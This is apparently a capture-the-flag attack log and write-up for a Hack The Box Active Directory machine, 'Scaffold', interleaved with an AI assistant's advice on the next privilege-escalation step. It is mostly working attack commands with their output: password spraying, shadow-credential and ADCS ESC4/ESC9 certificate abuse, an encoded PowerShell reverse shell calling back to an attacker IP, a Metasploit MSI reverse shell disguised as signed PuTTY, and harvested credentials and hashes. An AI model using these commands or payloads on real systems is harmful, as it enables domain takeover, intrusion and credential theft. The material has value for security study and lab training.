SkipCapture=NO
SkipAdminPassword=YES
SkipProductKey=YES
SkipComputerBackup=NO
SkipBitLocker=NO
SkipLocaleSelection=YES
SkipTimeZone=YES
SkipUserData=YES
SkipComputerName=NO
SkipDomainMembership=NO

KeyboardLocale=en-US
UserLocale=en-US
UILanguage=en-US
HideShell=YES
ApplyGPOPack=YES
EventService=http://dc:9800

cme smb scaffold.htb -u svc_mdt -p 'RubiksCubeTwice2026!'
SMB         10.129.246.248  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.246.248  445    DC               [-] scaffold.htb\svc_mdt:RubiksCubeTwice2026! STATUS_ACCOUNT_EXPIRED

cme smb scaffold.htb -u svc_deploy -p 'Depl0yPipe2026$Secure'
SMB         10.129.246.248  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.246.248  445    DC               [+] scaffold.htb\svc_deploy:Depl0yPipe2026$Secure

svc_deploy:Depl0yPipe2026$Secure

cme smb scaffold.htb -u users.txt -p creds.txt --continue-on-success
SMB         10.129.246.248  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.246.248  445    DC               [-] scaffold.htb\svc_mdt:Depl0yPipe2026$Secure STATUS_LOGON_FAILURE
SMB         10.129.246.248  445    DC               [-] scaffold.htb\m.carter:Depl0yPipe2026$Secure STATUS_LOGON_FAILURE
SMB         10.129.246.248  445    DC               [+] scaffold.htb\svc_deploy:Depl0yPipe2026$Secure
SMB         10.129.246.248  445    DC               [-] scaffold.htb\t.nguyen:Depl0yPipe2026$Secure STATUS_LOGON_FAILURE
SMB         10.129.246.248  445    DC               [-] scaffold.htb\j.harris:Depl0yPipe2026$Secure STATUS_LOGON_FAILURE
SMB         10.129.246.248  445    DC               [+] scaffold.htb\r.wilson:Depl0yPipe2026$Secure

r.wilson:Depl0yPipe2026$Secure

bloodyad --host dc.scaffold.htb -d scaffold.htb -u r.wilson -p 'Depl0yPipe2026$Secure'   add groupMember "Helpdesk Operator" r.wilson
[+] r.wilson added to Helpdesk Operator

certipy shadow auto -u r.wilson@scaffold.htb -p 'Depl0yPipe2026$Secure' \
-account m.carter -dc-ip 10.129.246.248

bloodyAD --host dc.scaffold.htb -d scaffold.htb -u r.wilson -p 'Depl0yPipe2026$Secure' \
remove uac m.carter -f ACCOUNTDISABLE
[+] ['ACCOUNTDISABLE'] property flags removed from m.carter's userAccountControl

certipy-ad shadow auto -u r.wilson@scaffold.htb -p 'Depl0yPipe2026$Secure'   -account m.carter -dc-ip 10.129.246.248
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting user 'm.carter'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2b66483a1b1549f29b89dcb28c76e547'
[*] Adding Key Credential with device ID '2b66483a1b1549f29b89dcb28c76e547' to the Key Credentials for 'm.carter'
[*] Successfully added Key Credential with device ID '2b66483a1b1549f29b89dcb28c76e547' to the Key Credentials for 'm.carter'
[*] Authenticating as 'm.carter' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'm.carter@scaffold.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'm.carter.ccache'
[*] Wrote credential cache to 'm.carter.ccache'
[*] Trying to retrieve NT hash for 'm.carter'
[*] Restoring the old Key Credentials for 'm.carter'
[*] Successfully restored the old Key Credentials for 'm.carter'
[*] NT hash for 'm.carter': 13c048dba80161f208f1294540a35831

 bloodyAD --host dc.scaffold.htb -d scaffold.htb -u svc_deploy -p "$P" remove groupMember Quarantined_Accounts m.carter

[dcomexec.py](http://dcomexec.py/)   -nooutput   -object MMC20   'scaffold.htb/m.carter@10.129.246.248'   'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAwACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.246.248 50120

PS C:\windows\system32>
PS C:\windows\system32>
PS C:\windows\system32> whoami
scaffold\m.carter
PS C:\windows\system32> cd C:\users\m.carter\Desktop
PS C:\users\m.carter\Desktop> ls

```
Directory: C:\users\m.carter\Desktop
```

Mode                 LastWriteTime         Length Name

---

- ar--- 10/29/2026 1:28 PM 34 user.txt

PS C:\users\m.carter\Desktop> cat user.txt
9c9d9ea96209b3da6565e15bec7d7b06

This is the winning output — there's a clean path to Domain Admin in it. Sorting by what matters:

🎯 The privesc: AD CS ESC4 on certificate templates (→ DA)

At the very bottom, under AD CS misconfigurations for ESC:
If you can modify a template (WriteDacl/WriteOwner/GenericAll), you can abuse ESC4
Dangerous rights over template: User          (Rights: WriteProperty,ExtendedRight)
Dangerous rights over template: UserSignature (Rights: WriteProperty,ExtendedRight)
Dangerous rights over template: ClientAuth     (Rights: WriteProperty,ExtendedRight)
Dangerous rights over template: EFS            (Rights: WriteProperty,ExtendedRight)

winPEAS ran as m.carter, so m.carter now has write access to those cert templates — almost certainly via the IT group (remember: flipping IT to a security group is what finally put the IT SID in m.carter's token; that same change activated these template rights — which is why certipy find only showed ESC8 earlier). This is ESC4: rewrite a template into an ESC1 config, then enroll a cert as Administrator → authenticate → DA.

# (certipy uses its own Kerberos, so it works despite the local krb5/winrm client mess)

# 1) ESC4: reconfigure the 'User' template to ESC1 (enrollee-supplies-subject + client auth), keep a backup

certipy-ad template -u m.carter@scaffold.htb -p 'BlueSkyTempReset2026!' -dc-ip 10.129.246.248 \
-template User -save-old -write-default-configuration   # (or just -template User to make it vuln)

# 2) ESC1: request a cert as Administrator

certipy-ad req -u m.carter@scaffold.htb -p 'BlueSkyTempReset2026!' -dc-ip 10.129.246.248 \
-ca scaffold-DC-CA -template User -upn administrator@scaffold.htb -sid <ADMIN_SID>

# 3) Use the cert to get Administrator's TGT + NT hash

certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.246.248
Then administrator → DCSync / WinRM / psexec → root.txt. (Admin SID = domain SID S-1-5-21-365932789-2848835602-3476675013-500.)

Note the output also flags StrongCertificateBindingEnforcement blank → ESC9-adjacent; if the plain ESC1 UPN mapping gets rejected, add -sid (shown) which is how certipy handles the strong-mapping/ESC9 case.

Secondary things worth noting

- MSSQL Express is running on the DC (sqlservr PID 1652, port 52951; MSSQL$SQLEXPRESS\sql\query pipe open to Everyone). SQL service runs as a virtual account that typically holds SeImpersonate → if m.carter can log into MSSQL, xp_cmdshell + a Potato = SYSTEM. A viable alternate root path if you want to avoid touching ADCS templates.
- No firewall (all profiles off), LSA Protection off, Credential Guard off — so once you're SYSTEM/admin, LSASS dumping is wide open.
- m.carter's own token privileges are boring (SeMachineAccountPrivilege, SeChangeNotify, SeIncreaseWorkingSet) — no SeImpersonate, and MAQ=0 kills the machine-account angle. So local-token privesc is out; ESC4 is the move.
- Exportable private keys in LocalMachine (portal, DC, CA certs) — nice loot but needs admin to export (post-exploitation).
- m.carter's AD comment literally reads "Retained for endpoint migration validation. Temp reset: BlueSkyTempReset2026!" — confirms the cred you're using.

Recommendation

Go ESC4 → ESC1 → Administrator. It's the intended root and the cleanest. Want me to run the certipy chain now (it uses its own Kerberos, so it'll work despite the WinRM-client issues), grab the Administrator hash, and pull root.txt? I'll need you to confirm you want me to modify the User template (I'll use -save-old so it's restorable).

certipy-ad auth -pfx cert1.pfx -password neveragain -dc-ip 10.129.246.248
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.cooper@scaffold.htb'
[*] Using principal: 'd.cooper@scaffold.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.cooper.ccache'
[*] Wrote credential cache to 'd.cooper.ccache'
[*] Trying to retrieve NT hash for 'd.cooper'
[*] Got hash for 'd.cooper@scaffold.htb': aad3b435b51404eeaad3b435b51404ee:8bf305c62b94c9def1c5c30fb24ff2b8

certipy-ad find -u d.cooper@scaffold.htb -hashes 8bf305c62b94c9def1c5c30fb24ff2b8 -dc-ip 10.129.246.248 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 36 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 19 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scaffold-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'scaffold-DC-CA'
[*] Checking web enrollment for CA 'scaffold-DC-CA' @ 'dc.scaffold.htb'
[*] Enumeration output:
Certificate Authorities
0
CA Name                             : scaffold-DC-CA
DNS Name                            : dc.scaffold.htb
Certificate Subject                 : CN=scaffold-DC-CA, DC=scaffold, DC=htb
Certificate Serial Number           : 4511D497611792A44830C2841AB8E40D
Certificate Validity Start          : 2026-09-01 23:51:27+00:00
Certificate Validity End            : 2126-09-02 00:01:27+00:00
Web Enrollment
HTTP
Enabled                         : False
HTTPS
Enabled                         : True
Channel Binding (EPA)           : False
User Specified SAN                  : Disabled
Request Disposition                 : Issue
Enforce Encryption for Requests     : Enabled
Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
Permissions
Owner                             : SCAFFOLD.HTB\Administrators
Access Rights
ManageCa                        : SCAFFOLD.HTB\Administrators
SCAFFOLD.HTB\Domain Admins
SCAFFOLD.HTB\Enterprise Admins
ManageCertificates              : SCAFFOLD.HTB\Administrators
SCAFFOLD.HTB\Domain Admins
SCAFFOLD.HTB\Enterprise Admins
Enroll                          : SCAFFOLD.HTB\Authenticated Users
[!] Vulnerabilities
ESC8                              : Web Enrollment is enabled over HTTPS and Channel Binding is disabled.
Certificate Templates                   : [!] Could not find any certificate templates

```jsx
cat scaffold_context.md 
# HTB Scaffold — Engagement Context / Handoff

_Last updated: 2026-10-30. Authorized HTB engagement. DC IP changes per spawn; current session used **10.129.246.248**._

## Target
- Domain: `scaffold.htb` — single DC `dc.scaffold.htb` (also hosts `portal.scaffold.htb`), Windows Server 2022.
- `/etc/hosts`: `10.129.246.248  scaffold.htb portal.scaffold.htb dc.scaffold.htb`
- Domain SID: `S-1-5-21-365932789-2848835602-3476675013`  (Administrator = ...-500)
- Keep clock synced or PKINIT breaks: `sudo ntpdate 10.129.246.248`

## Credentials harvested (all confirmed working unless noted)
| Principal | Secret | Notes |
|---|---|---|
| d.cooper | NTLM `8bf305c62b94c9def1c5c30fb24ff2b8` | via PKINIT (cert1.pfx). WinRM **Pwn3d** (Remote Management Users). In Package_Developers. |
| t.walker | cert2.pfx (pw `neveragain`) | PKINIT **fails** (KDC_ERR_CLIENT_NOT_TRUSTED — strong mapping). |
| m.carter | `BlueSkyTempReset2026!` | In `IT` group → AddSelf to `Endpoint Remote Management` → **dcomexec shell**. |
| j.harris | `Harr1sHelpdesk2026!Breach` | In `Helpdesk`. Portal access. **Explicit DENY ACEs everywhere** (trap). |
| svc_mdt | `RubiksCubeTwice2026!` | **ACCOUNT EXPIRED** — useless. |
| svc_deploy | `Depl0yPipe2026$Secure` | NOTE the **zero** (DomainAdminPassword). The `o`-variant `DeployPipe2026$Secure` (UserPassword) is WRONG. SMB valid, NOT admin, no WinRM. In Identity_Operations + Deploy_Operators. |
| PKGSIGN$ (computer, WE created) | `Sc@ffold123!` | Created by d.cooper in OU=Dev_Machines. In Domain Computers. |

LM:NT for d.cooper PtH = `aad3b435b51404eeaad3b435b51404ee:8bf305c62b94c9def1c5c30fb24ff2b8`

## Loot artifacts (saved to `~/scaffold_loot/`)
- `cert1.pfx` / `cert2.pfx` — d.cooper / t.walker code-signing certs (pw `neveragain`), from `C:\Dev\DevCerts\InternalCodeSigning_0{1,2}.pfx`.
- `d.cooper.ccache` — Kerberos TGT for d.cooper.
- **`pkgsign.pfx`** — ⭐ code-signing cert, **subject `CN=Package_Developers`**, issuer scaffold-DC-CA, EKU Code Signing. **Empty password.** This is THE key for the final step.
- `scaffold_adcs_Certipy.json`, `*_bloodhound.zip` — enum data (BloodHound under-collected; verify ACLs with dacledit).

## Kill chain so far (foothold → DC shell)
1. cert1/cert2.pfx (given) → cracked pw `neveragain` (john) → ADCS client-auth certs with UPN SAN.
2. `certipy-ad auth -pfx cert1.pfx` → d.cooper TGT + NT hash (t.walker fails: strong mapping).
3. d.cooper ∈ **Remote Management Users** → `evil-winrm`/`nxc winrm` (Pwn3d).
4. m.carter ∈ **IT** group which has `AddSelf` → **Endpoint Remote Management**; added self → `dcomexec.py` shell on DC.
5. MDT **XXE against EventService** (`http://dc:9800`, `exploit.py`) read `Y:\DeploymentShare\Control\{Bootstrap,CustomSettings}.ini` → svc_mdt (expired) + **svc_deploy** creds.
6. d.cooper (Package_Developers) has **CreateChild on `OU=Dev_Machines,OU=Packaging_Team,OU=Scaffold`** → created **PKGSIGN$** computer (bypasses MAQ=0, which blocks normal computer creation).
7. PKGSIGN$ ∈ Domain Computers → enrolled template **`PackagingCodeSigning`** (Code Signing EKU + `ENROLLEE_SUPPLIES_SUBJECT`) with `-subject 'CN=Package_Developers'` → **`pkgsign.pfx`**.

Re-mint the cert if the box resets / scratchpad lost:
```bash
bloodyAD -u d.cooper -p "$LMNT" --host dc.scaffold.htb -d scaffold.htb \
  add computer PKGSIGN 'Sc@ffold123!' --ou 'OU=Dev_Machines,OU=Packaging_Team,OU=Scaffold,DC=scaffold,DC=htb'
certipy-ad req -u 'PKGSIGN$' -p 'Sc@ffold123!' -dc-ip <DC> -ca scaffold-DC-CA \
  -template PackagingCodeSigning -subject 'CN=Package_Developers'
```

## The MSI deployment pipeline (the intended root path)
Portal (ASP.NET, Windows auth) → `C:\Software\Packages\Incoming` → **validator approves** → `...\Ready` → **`Deploy-Engine.ps1` runs as SYSTEM** (scheduled task) installs any MSI in Ready via `msiexec /i /qn` → **SYSTEM code execution**.

Deploy-Engine + Validator.ps1 re-validate every MSI. To be installed, our MSI must:
- **Be signed with subject EXACTLY `CN=Package_Developers`**, issuer contains `scaffold-DC-CA`  → we have `pkgsign.pfx`. ✅
- Match a supported app's ProductCode. **Target = PuTTY** (`{ED41CD4E-33BB-400C-AB20-B09388DC83EF}`), ProductName like `*PuTTY*`. PuTTY has **no hashes.json** so the SHA256 allowlist is skipped (7-Zip HAS one — avoid it).
- ProductVersion **newer than installed PuTTY 0.83** (use e.g. `1.0.0`).
- Hash mismatch is non-fatal (known bug: "approved despite SHA-256 hash differs").

Portal paths/config (`appsettings.json`): roles → Developers=`Package_Developers`, Validators=`Package_Validators`, Admins=`Deployment_Admins`. `TrustedCert.SubjectMustContain="CN=Package_Developers"`, `IssuerMustContain="scaffold-DC-CA"`. DB: `Server=DC\SQLEXPRESS;Database=ScaffoldPortal;Integrated Security=True`.

Portal upload (works as d.cooper via **NTLM pass-the-hash**, `requests_ntlm`, LM:NT as password): `POST /Package/Upload`, multipart field `file`, needs `__RequestVerificationToken` (+ antiforgery cookie). Our earlier d.cooper-signed test MSI = **package 9**, stuck `Pending` (wrong signer subject).

## ⛔ CURRENT BLOCKER
Upload sets `Status=Pending`. **There is NO auto-approval.** `ValidationController` (Approve/Reject) requires policy **`ValidatorOrAdmin`** = member of **`Package_Validators`** (only **m.chen**) **OR** **`Deployment_Admins`** (only **o.bennett**). `ApprovePackageAsync` is what does `MoveToReady`. We cannot write to `Ready` directly (Package_Developers = read-only; writers = IIS APPPOOL\ScaffoldPortal, SYSTEM, Admins).

**So we need to act as m.chen or o.bennett (or get code-exec as the ScaffoldPortal app-pool) to approve.** Everything else for root is ready.

## Dead ends already ruled out
- No ACL/reset path to m.chen, o.bennett, r.wilson, Package_Validators, Deployment_Admins (only Domain Admins/Account Operators/EA/Admins/SYSTEM; **j.harris has explicit DENY** on all the juicy ones — deliberate trap).
- m.chen/o.bennett: UAC 66048, no SPN, preauth required → **not Kerberoastable/ASREPRoastable**.
- MAQ=0 (can't create computers except via the Dev_Machines CreateChild as Package_Developers — already used).
- MSSQL (port 52951): login denied for m.carter, d.cooper, svc_deploy. 1433 closed.
- DeploymentShare$ / REMINST: SMB access denied even to svc_deploy (XXE read it via EventService's privileged context, not SMB).
- AlwaysInstallElevated: **not set**. No weak non-system services. d.cooper/m.carter have no SeImpersonate.
- Account Operators: **empty**. Can't add selves to Package_Validators/Deployment_Admins (no write on those groups).
- ESC8 is enabled (web enroll HTTPS, EPA off) but DC-self-relay failed (reflection/EPA).

## 🔎 OPEN LEADS (try next, roughly in order)
1. **Print Operators** keeps appearing: has `CreateChild/DeleteChild` on OU=Users, Dev_Machines, ManagedObjects, Packaging_Team, Scaffold **AND `SeLoadDriverPrivilege`** (GptTmpl `{6AC1786C-...}`: `SeLoadDriverPrivilege = S-1-5-32-544, *S-1-5-32-550`). Print Operators → load malicious driver → SYSTEM (classic DC privesc). **Check who is in Print Operators and whether any path lands us there.** Membership not yet enumerated.
2. **Identity_Operations** group (svc_deploy's distinctive group, SID ...1116) — purpose STILL unidentified. Not in BloodHound, no OU/object ACEs found. Check: GPO restricted-groups/user-rights (SYSVOL GptTmpl — was mid-search when paused), and whether it grants local rights on the DC. Also Deploy_Operators (...1105).
3. **Code-exec as `IIS APPPOOL\ScaffoldPortal`** (can write Ready + is effectively the approver). Full portal **source is on disk at `C:\Dev\Build\ScaffoldPortal\`** (Controllers.cs, Services.cs, Program.cs) — audit for an upload/deserialization/path-traversal RCE. `MoveToReadyAsync` uses server-generated StoredFileName (no obvious traversal).
4. **Get m.chen or o.bennett creds** from the box: now on DC as d.cooper, search readable locations (C:\Dev, C:\Software, user profiles if reachable, PowerShell history `...\PSReadLine\ConsoleHost_history.txt`), portal DB.
5. GPO SYSVOL GptTmpl search was in progress — finish checking all policies for privilege/restricted-group grants to svc_deploy / its groups / any user we hold.

## Ready-to-go final step (once we can approve)
Build PuTTY-masquerading MSI with SYSTEM payload, sign, upload, approve:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4444 -f msi -o putty.msi
# rewrite props so it passes the engine (msitools):
msibuild putty.msi -q "UPDATE Property SET Value='PuTTY' WHERE Property='ProductName'"
msibuild putty.msi -q "UPDATE Property SET Value='{ED41CD4E-33BB-400C-AB20-B09388DC83EF}' WHERE Property='ProductCode'"
msibuild putty.msi -q "UPDATE Property SET Value='1.0.0' WHERE Property='ProductVersion'"
osslsigncode sign -pkcs12 ~/scaffold_loot/pkgsign.pfx -pass '' -n PuTTY -in putty.msi -out putty-signed.msi
# upload via portal as d.cooper (requests_ntlm PtH) -> then approve as m.chen/o.bennett -> SYSTEM shell on :4444
```
Tooling present: certipy-ad, bloodyAD, dacledit.py, mssqlclient.py, addcomputer.py, nxc, evil-winrm, impacket, osslsigncode, msitools (msibuild/msiinfo — NO wixl), john, rockyou (extracted to scratchpad; re-gunzip from /usr/share/wordlists/rockyou.txt.gz).

## Attacker box
tun0 = **10.10.14.80**. Reverse-shell listener pattern used:
`tail -f cmd.in | nc -lvnp 4444 >> shell.log` (feed commands by appending to cmd.in).

```

## Stage 3 — Password reuse unlocks r.wilson

- `r.wilson` reuses svc_deploy's password → `r.wilson : Depl0yPipe2026$Secure` (valid over LDAP).
- This hands us the **`GenericWrite` on m.carter** write primitive.

## Stage 4 — ESC9 UPN-swap → Administrator certificate

Pre‑hardening build ⇒ CA issues certs **without the SID security extension** ⇒ KDC falls back to **weak UPN mapping**. `Administrator` has no UPN of its own (no conflict).

```bash
# 1) r.wilson swaps m.carter's identity
ldapmodify -x -H ldap://10.129.246.248 -D 'r.wilson@scaffold.htb' -w 'Depl0yPipe2026$Secure' <<'LDIF'
dn: CN=m.carter,OU=Users,OU=Scaffold,DC=scaffold,DC=htb
changetype: modify
replace: userPrincipalName
userPrincipalName: Administrator
-
add: mail
mail: m.carter@scaffold.htb
LDIF

# 2) enroll the User template AS m.carter (CA builds SAN from AD UPN = Administrator)
certipy-ad req -u 'm.carter@scaffold.htb' -p 'BlueSkyTempReset2026!' \
  -dc-ip 10.129.246.248 -target dc.scaffold.htb -ca 'scaffold-DC-CA' -template 'User'
#   -> administrator.pfx  (SAN UPN 'Administrator', "Certificate has no object SID")

# 3) restore m.carter's real identity (cleanup)
ldapmodify -x -H ldap://10.129.246.248 -D 'r.wilson@scaffold.htb' -w 'Depl0yPipe2026$Secure' <<'LDIF'
dn: CN=m.carter,OU=Users,OU=Scaffold,DC=scaffold,DC=htb
changetype: modify
replace: userPrincipalName
userPrincipalName: m.carter@scaffold.htb
-
delete: mail
LDIF

# 4) PKINIT with the cert -> KDC maps by UPN -> Administrator
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.246.248 -username administrator -domain scaffold.htb
#   -> Administrator NT hash: cb9ec119e1de7e83330a91c04fed3979
```

## Stage 5 — Domain Admin

```bash
nxc winrm dc.scaffold.htb -u Administrator -H cb9ec119e1de7e83330a91c04fed3979
#   (Pwn3d!) -> whoami = scaffold\administrator
#   root.txt = cd2007baab95f1a2553c6cc07b3af7ec
```

---

## Dead ends ruled out (defended decoys)

- **MSI deployment pipeline** (upload → approve → SYSTEM install): portal authz is hard group checks (no bypass, upload path has no traversal), `Ready`/scripts not writable, no approver bot, no ACL path to m.chen/o.bennett.
- **ESC8**: CA is on the DC → coerced DC$ relay is same‑host **NTLM reflection**, blocked (EPA is off but irrelevant). Only one host exists besides PKGSIGN$ (no running host).
- **RBCD on DC / ADCS ESC1‑3/10/13**: no write on the DC object; no vulnerable/NoSecurityExtension template enrollable by us under normal binding assumptions.
- **Print Operators `SeLoadDriverPrivilege`**, DnsAdmins, Server/Backup/Account Operators: all **empty**, unreachable.
- **j.harris / Helpdesk**: neutralized by explicit domain‑wide Deny.

## Why ESC9 was the intended path

Every usable AD delegation (Identity_Operations `groupType`, Helpdesk operator `GenericWrite`) funnels to **m.carter**, whose only real value turned out to be enrolling a client‑auth cert whose identity the attacker can rewrite — combined with the old build's weak UPN mapping. The MSI pipeline and ESC8 were well‑built decoys.

## Cleanup performed / artifacts

- `m.carter.userPrincipalName` restored to `m.carter@scaffold.htb`; temporary `mail` removed.
- Leftovers: `administrator.pfx`, `administrator.ccache` (scratchpad); CA cert **request ID 45**; `PKGSIGN$` computer object (password `Sc@ffold123!`).